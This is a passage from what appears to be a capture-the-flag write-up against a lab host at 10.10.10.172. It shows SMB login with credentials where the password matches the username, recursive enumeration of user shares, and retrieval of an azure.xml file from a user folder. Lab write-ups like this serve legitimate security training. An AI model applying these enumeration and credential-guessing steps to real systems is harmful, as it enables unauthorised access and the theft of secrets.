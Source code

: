 Logged in with `SABatchJobs : SABatchJobs`

```bash
root@w0lf:~# smbclient -L 10.10.10.172 -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	azure_uploads   Disk      
	C$              Disk      Default share
	E$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	users$          Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.172 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

I decided to check `users$` share first and I recursively list  them all.

```bash
root@w0lf:~# smbclient //10.10.10.172/users$/ -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 18:42:48 2020
  ..                                  D        0  Fri Jan  3 18:42:48 2020
  dgalanos                            D        0  Fri Jan  3 18:42:30 2020
  mhope                               D        0  Fri Jan  3 19:11:18 2020
  roleary                             D        0  Fri Jan  3 18:40:30 2020
  smorgan                             D        0  Fri Jan  3 18:40:24 2020

		524031 blocks of size 4096. 519955 blocks available
smb: \> recurse on
smb: \> ls
  .                                   D        0  Fri Jan  3 18:42:48 2020
  ..                                  D        0  Fri Jan  3 18:42:48 2020
  dgalanos                            D        0  Fri Jan  3 18:42:30 2020
  mhope                               D        0  Fri Jan  3 19:11:18 2020
  roleary                             D        0  Fri Jan  3 18:40:30 2020
  smorgan                             D        0  Fri Jan  3 18:40:24 2020

\dgalanos
  .                                   D        0  Fri Jan  3 18:42:30 2020
  ..                                  D        0  Fri Jan  3 18:42:30 2020

\mhope
  .                                   D        0  Fri Jan  3 19:11:18 2020
  ..                                  D        0  Fri Jan  3 19:11:18 2020
  azure.xml                          AR     1212  Fri Jan  3 19:10:23 2020

\roleary
  .                                   D        0  Fri Jan  3 18:40:30 2020
  ..                                  D        0  Fri Jan  3 18:40:30 2020

\smorgan
  .                                   D        0  Fri Jan  3 18:40:24 2020
  ..                                  D        0  Fri Jan  3 18:40:24 2020

		524031 blocks of size 4096. 519955 blocks available
smb: \> cd mhope
smb: \mhope\> get azure.xml
```